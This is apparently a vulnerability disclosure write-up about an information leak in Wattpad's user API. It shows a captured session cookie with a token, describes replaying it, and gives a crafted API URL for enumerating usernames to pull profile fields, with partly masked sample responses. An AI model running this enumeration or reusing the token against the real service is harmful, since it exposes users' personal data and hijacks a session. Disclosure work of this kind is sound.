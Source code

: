 # About Wattpad Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie: wp_id=d009d7cb-9041-46a2-a004-826cff01b7aa; lang=1; _ga=GA1.1.500116561.1711539863; _fbp=fb.1.1711539863586.1786727445; _pbjs_userid_consent_data=3524755945110770; _sharedid=014ee592-f8dd-4993-9741-7f62da71246c; g_state={"i_p":1711547080940,"i_l":1}; fbm_2582347323=base_domain=.wattpad.com; locale=en_US; token=462965140%3A2%3A1711540226%3AqEeVSRSqDk_yvPXvHza9uN6vVIzhpiObJWVy14c87omxtPE1FmQRnwruVFKFzezR; ff=1; dpr=1; tz=-8; X-Time-Zone=Asia%2FShanghai; hc=2024-03-27T11%3A50%3A28.645Z; seen-wallet-onboard=1; isStaff=1; _ga_FNDTZ0MZDQ=GS1.1.1712101115.3.0.1712101115.0.0.0; te_session_id=1712101115137; RT=nu=https%3A%2F%2Fwww.wattpad.com%2Fuser%2FShionYg&cl=1712101219873

```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: username, creation date, facebook

> Request method: GET, information can be obtained by traversing the constructed username, such as "ShionYg", "mahamaha"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params|
|---------|---|---|
| ShionYg |https://www.wattpad.com/api/v3/users/ShionYg?fields=username%2Cname%2Cdescription%2Cavatar%2CbackgroundUrl%2CcreateDate%2Clocation%2Cfollowing%2CfollowingRequest%2CnumFollowing%2Cfollower%2CfollowerRequest%2CnumFollowers%2CnumLists%2CnumStoriesPublished%2CvotesReceived%2Cfacebook%2Ctwitter%2Cwebsite%2Csmashwords%2Chighlight_colour%2Chtml_enabled%2Cverified%2Cambassador%2Cwattpad_squad%2Cis_staff%2CisPrivate%2CisMuted%2CexternalId%2Cnotes%2Csafety(isMuted%2CisBlocked)|fields=username%2Cname%2Cdescription%2Cavatar%2CbackgroundUrl%2CcreateDate%2Clocation%2Cfollowing%2CfollowingRequest%2CnumFollowing%2Cfollower%2CfollowerRequest%2CnumFollowers%2CnumLists%2CnumStoriesPublished%2CvotesReceived%2Cfacebook%2Ctwitter%2Cwebsite%2Csmashwords%2Chighlight_colour%2Chtml_enabled%2Cverified%2Cambassador%2Cwattpad_squad%2Cis_staff%2CisPrivate%2CisMuted%2CexternalId%2Cnotes%2Csafety(isMuted%2CisBlocked)|
| Mahamaha |https://www.wattpad.com/api/v3/users/MahaMaha?fields=username%2Cname%2Cdescription%2Cavatar%2CbackgroundUrl%2CcreateDate%2Clocation%2Cfollowing%2CfollowingRequest%2CnumFollowing%2Cfollower%2CfollowerRequest%2CnumFollowers%2CnumLists%2CnumStoriesPublished%2CvotesReceived%2Cfacebook%2Ctwitter%2Cwebsite%2Csmashwords%2Chighlight_colour%2Chtml_enabled%2Cverified%2Cambassador%2Cwattpad_squad%2Cis_staff%2CisPrivate%2CisMuted%2CexternalId%2Cnotes%2Csafety(isMuted%2CisBlocked)|fields=username%2Cname%2Cdescription%2Cavatar%2CbackgroundUrl%2CcreateDate%2Clocation%2Cfollowing%2CfollowingRequest%2CnumFollowing%2Cfollower%2CfollowerRequest%2CnumFollowers%2CnumLists%2CnumStoriesPublished%2CvotesReceived%2Cfacebook%2Ctwitter%2Cwebsite%2Csmashwords%2Chighlight_colour%2Chtml_enabled%2Cverified%2Cambassador%2Cwattpad_squad%2Cis_staff%2CisPrivate%2CisMuted%2CexternalId%2Cnotes%2Csafety(isMuted%2CisBlocked)	|


### Leaked packet cases 
ShioYg:
``` {
"username": "ShionYg",
"avatar": "https://img.wattpad.com/useravatar/8.128.jpg",
"isPrivate": false,
"backgroundUrl": "",
"follower": false,
"following": false,
"safety": {
     "isMuted": false,
     "isBlocked": false
},
"name": "******",
"description": "",
"createDate": "2024-0*-0*T11:05:16Z",
"location": "",
"verified": false,
"ambassador": false,
"facebook": "*******************",
"twitter": "",
"website": "",
"smashwords": "",
"votesReceived": 0,
"numStoriesPublished": 0,
"numFollowing": 0,
"numFollowers": 0,
"numLists": 2,
"isMuted": false,
"is_staff": false,
"highlight_colour": "#E04006",
"html_enabled": false,
"wattpad_squad": false,
"externalId": "25d1868770f7cb19a1bdef8de8ddc75892533b68"
```
mahamaha:
``` {
"username": "mahamaha",
"avatar": "https://img.wattpad.com/useravatar/5.128.jpg",
"isPrivate": false,
"backgroundUrl": "",
"follower": false,
"following": false,
"followerRequest": "",
"followingRequest": "",
"safety": {
    "isMuted": false,
    "isBlocked": false
},
"name": "",
"description": "",
"createDate": "2012-0*-**T12:37:06Z",
"location": "",
"verified": false,
"ambassador": false,
"facebook": "",
"twitter": "",
"website": "",
"smashwords": "",
"votesReceived": 0,
"numStoriesPublished": 0,
"numFollowing": 2,
"numFollowers": 0,
"numLists": 0,
"isMuted": false,
"is_staff": false,
"highlight_colour": "#A36E24",
"html_enabled": false,
"wattpad_squad": false,
"externalId": "ea3503a262fd29260b62b12950950af3ec5b28f7"
```